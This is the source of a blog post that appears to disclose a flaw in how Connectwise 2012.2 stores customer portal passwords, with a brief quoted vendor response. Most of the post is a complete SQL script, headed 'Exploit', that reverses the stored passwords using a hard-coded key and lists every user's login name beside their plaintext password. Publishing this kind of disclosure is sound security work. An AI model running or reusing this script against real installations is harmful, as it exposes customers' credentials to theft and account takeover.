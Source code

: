 ```yaml
---
layout: post
title:  Connectwise Password Recovery
fullview: true
---
```


### Connectwise password decryption and recovery

The release notes for the 2012.2 edition of Connectwise claim, as a welcome feature, "The customer portal password ... is now encrypted". Unfortunately, what we see is not encryption. What we see is pointless, reversible exercise in incompetence. 

### Exploit
The below SQL script will produce a table featuring every user's login name and password. 

{% highlight sql %}
BEGIN

DECLARE
	@KeyValue       nchar(15),
	@OutputValue    varchar(20),
	@Working        nchar(10),
	@WorkingKey     nchar(10),
	@Username		nchar(32),
	@LoopCount      integer,
	@CalcKey        integer,
	@WorkingInt     integer,
	@WorkingKeyInt  integer,
	@InputValue nchar(20)
        
DECLARE pass_cursor CURSOR FOR 
	SELECT CM_Password, Description
	FROM dbo.Contact, dbo.Contact_Communication 
	WHERE contact.Contact_RecID = Contact_Communication.Contact_RecID
	AND Communication_Type_RecID = '1'
	AND CM_Password is not NULL

OPEN pass_cursor

FETCH NEXT FROM pass_cursor 
INTO @InputValue, @Username

WHILE @@FETCH_STATUS = 0
BEGIN
	SET @KeyValue = 'RASCENCRYPT101R'
	SET @LoopCount = 1
	SET @OutputValue = ''
        WHILE len(@InputValue) >= @LoopCount
                BEGIN
                SET @Working = ascii(substring(@InputValue, @LoopCount, 1))
                SET @WorkingKey = ascii(substring(@KeyValue, @LoopCount, 1))
                IF convert(integer, @Working) < convert(integer, @WorkingKey)
                        BEGIN
                        SET @Working = char(convert(integer, (@Working + 255)) -
							convert(integer, @WorkingKey))
                        END
                ELSE
                        BEGIN
                        SET @Working = char(convert(integer, @Working) - convert
							(integer, @WorkingKey))
                        END
                SET @LoopCount = @LoopCount + 1
                SET @OutputValue = @OutputValue + convert(char(1), @working)
         END


	SELECT @Username, @outputvalue

    FETCH NEXT FROM pass_cursor 
    INTO @InputValue, @Username

END

CLOSE pass_cursor;
DEALLOCATE pass_cursor;

END

{% endhighlight %}


### Vendor Response
The vendor responds "Connectwise is secured through the purchase of an SSL certificate" (WTF?) 

